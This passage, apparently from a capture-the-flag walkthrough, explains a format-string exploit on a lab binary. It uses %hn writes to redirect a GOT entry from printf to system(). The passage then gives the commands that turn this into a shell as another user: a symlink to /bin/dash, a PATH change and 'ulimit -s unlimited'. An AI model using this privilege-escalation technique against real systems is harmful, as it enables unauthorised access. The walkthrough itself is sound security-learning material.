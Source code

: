 ``` python
payload += "4\n"
print payload
```

The format string first writes some dummy bytes and then overwrites the first part of the got pointer. It takes the 8th argument off the stack and uses %hn to write a half-nibble to that address. The value is the number of bytes that have been written. 

Then, it takes the 12th argument, which is the pointer to the second half of the got entry. It writes some dummy bytes and then the outputs the number of bytes written to the got address. Effectively, after running the exploit, the memory location at 0x8049bfc now contains 0x40069060. This is the address of system in libc after running the ulimit trick.

So if we run this exploit, the next time printf() will be called by the binary, it will call system() instead!

``` bash
mike@pegasus:~$ python exploit.py | ./my_first

...snip...

sh: 1: Selection:: not found

Goodbye!
```

OK, we have system() being called! So to fully exploit it and grant us a shell, we make a symlink to /bin/dash and call it "Selection:". Finally we need to set the PATH environment variable so that the shell searches in the current directory and finds our symlink. The exploit is pushed to the binary via stdin and the cat command then catches the shell that is being spawned (otherwise it closes immediately).

``` bash
mike@pegasus:~$ ln -s /bin/dash Selection:
mike@pegasus:~$ export PATH=".:$PATH"
mike@pegasus:~$ ulimit -s unlimited
mike@pegasus:~$ (python ./exploit.py; cat) | ./my_first 

...snip...

id
uid=1001(mike) gid=1001(mike) euid=1000(john) groups=1000(john),1001(mike)
```

So we now have a shell as john! I wanted to spawn another shell (using python) to get a pty, but it wouldn't let me:

``` bash
python -c 'import pty;pty.spawn("/bin/bash")'
Traceback (most recent call last):
  File "<string>", line 1, in <module>
  File "/usr/lib/python2.7/pty.py", line 165, in spawn
    pid, master_fd = fork()
  File "/usr/lib/python2.7/pty.py", line 107, in fork
    master_fd, slave_fd = openpty()
  File "/usr/lib/python2.7/pty.py", line 29, in openpty
    master_fd, slave_name = _open_terminal()
  File "/usr/lib/python2.7/pty.py", line 70, in _open_terminal
    raise os.error, 'out of pty devices'
OSError: out of pty devices
```
